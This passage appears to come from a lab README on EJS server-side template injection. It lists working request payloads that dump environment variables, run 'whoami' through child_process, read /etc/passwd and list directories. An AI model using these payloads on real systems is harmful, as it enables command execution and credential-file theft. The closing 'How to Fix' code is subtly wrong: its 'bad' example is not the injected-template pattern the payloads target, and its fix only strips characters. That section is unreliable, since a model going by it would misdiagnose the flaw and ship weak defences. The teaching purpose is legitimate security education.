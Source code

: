```javascript
<%= global.process.mainModule.require('os').networkInterfaces() %>
<%= global.process.mainModule.require('os').hostname() %>
<%= global.process.mainModule.require('os').platform() %>
```

## 🎯 Exploitation Examples

### Example 1: Basic Information Disclosure
```
GET /ejs?input=<%= global.process.env %>
```

### Example 2: Command Execution
```
GET /ejs?input=<%= global.process.mainModule.require('child_process').exec('whoami') %>
```

### Example 3: File Reading
```
GET /advanced?template=<%= global.process.mainModule.require('fs').readFileSync('/etc/passwd', 'utf8') %>
```

### Example 4: Directory Listing
```
GET /advanced?template=<%= global.process.mainModule.require('fs').readdirSync('/') %>
```

## 🛠️ How to Fix

### 1. Input Validation and Sanitization

```javascript
// BAD: Direct template injection
app.get('/vulnerable', (req, res) => {
  const userInput = req.query.input;
  res.render('template', { userInput }); // DANGEROUS!
});

// GOOD: Input validation and sanitization
app.get('/safe', (req, res) => {
  const userInput = req.query.input;
  
  // Validate input
  if (!userInput || typeof userInput !== 'string') {
    return res.status(400).json({ error: 'Invalid input' });
  }
  
  // Sanitize input (remove dangerous characters)
  const sanitizedInput = userInput.replace(/[<>&"']/g, '');
  
  res.render('template', { userInput: sanitizedInput });
});
```
